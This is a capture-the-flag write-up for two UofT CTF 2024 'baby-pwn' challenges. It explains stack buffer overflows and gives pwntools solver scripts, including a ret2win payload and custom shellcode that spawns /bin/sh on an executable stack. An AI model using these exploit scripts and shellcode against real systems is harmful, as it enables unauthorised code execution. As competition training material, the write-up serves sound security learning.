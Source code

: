 # UofT CTF 2024

## baby-pwn
### challenge1
```c
void secret()
{
    printf("Congratulations! Here is your flag: ");
    char *argv[] = {"/bin/cat", "flag.txt", NULL};
    char *envp[] = {NULL};
    execve("/bin/cat", argv, envp);
}
void vulnerable_function()
{
    char buffer[64];
    printf("Enter some text: ");
    fgets(buffer, 128, stdin);
    printf("You entered: %s\n", buffer);
}
```
### approach1
* vulnerability
  * There is a buffer overflow.
```C
    char buffer[64];
    fgets(buffer, 128, stdin);
```
* ret2win
  * overwrite the return address into secret function.
  * unfortunately, printf function was called in the secret function, so overwrite the saved rbp with a known writable area.
### solver1
```py
from pwn import *

e = ELF("baby-pwn")
#p = e.process()
p = remote("34.162.142.123", 5000)
#gdb.attach(p)

offset = 72-8
payload = b"A" * offset
payload+= p64(0x00404058)
payload += p64(e.symbols["secret"]+8)

p.sendline(payload)
p.interactive()
```
## baby-pwn2
### challenge2
```c
void vulnerable_function()
{
    char buffer[64];
    printf("Stack address leak: %p\n", buffer);
    printf("Enter some text: ");
    fgets(buffer, 128, stdin);
}
```
checksec
```bash
[~/dc/ctf/uoft/baby-pwn2] >>>checksec baby-pwn-2
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```
### approach2
* vulnerability
  * buffer overflow again
```c
    char buffer[64];
    fgets(buffer, 128, stdin);
```
* Stack Executable
  * the important thing is stack region is executable.
  * so the solution of this challenge is "ret2shellcode"
* shellcode
  * At first, I tried a shellcode which is available on the pwntools.
  * But something went wrong (I think the injected rbp cause that) so I wrote my own shellcode.
* First try
```py
#addr is a leaked stack address.
sh = f"""
    mov rdi, {hex(addr)} ; -> "/bin/sh"
    mov rsi, {hex(addr+16)} ; -> &["/bin/sh",NULL]
    mov rdx, {hex(addr+376)} ; -> environ
    mov rax, 59 ; execve
    syscall
"""

sh = asm(sh)
payload = b"/bin/sh\x00"
payload+= p64(0)
payload+= p64(addr)
payload+= p64(addr+8)
payload += sh
payload = payload.ljust(offset, b"A")
```
This shellcode was failed.
I thought this shellcode completely implement whole arguments to execute the `/bin/sh`.
After that, I create another shellcode that write whole arguments into .bss and .data.
* Second try
```py
sh = f"""
    mov rax, 0x68732f6e69622f
    mov [{hex(bss)}], rax
    mov rdi, {hex(bss)}
    mov [{hex(data)}], rdi
    mov rsi, {hex(data)}
    mov rdx, 0
    mov rax, 59
    syscall
"""
```
This shellcode successfully executed the shell.
### solver2
```Py
from pwn import *

e = ELF("baby-pwn-2")
p = e.process()
#gdb.attach(p)

context.arch = "amd64"
context.binary = e

#p = remote("34.162.119.16", 5000)

bss = 0x00404048
data = 0x00404020
offset = 72

p.recvuntil(b"Stack address leak: ")
addr = int(p.recvline().strip().decode(), 16)

sh = f"""
    mov rax, 0x68732f6e69622f
    mov [{hex(bss)}], rax
    mov rdi, {hex(bss)}
    mov [{hex(data)}], rdi
    mov rsi, {hex(data)}
    mov rdx, 0
    mov rax, 59
    syscall
"""
#print(shellcraft.sh())
print(len(asm(sh)))
payload = asm(sh).ljust(offset, b"A")
payload += p64(addr)

p.sendline(payload)

p.interactive()
```

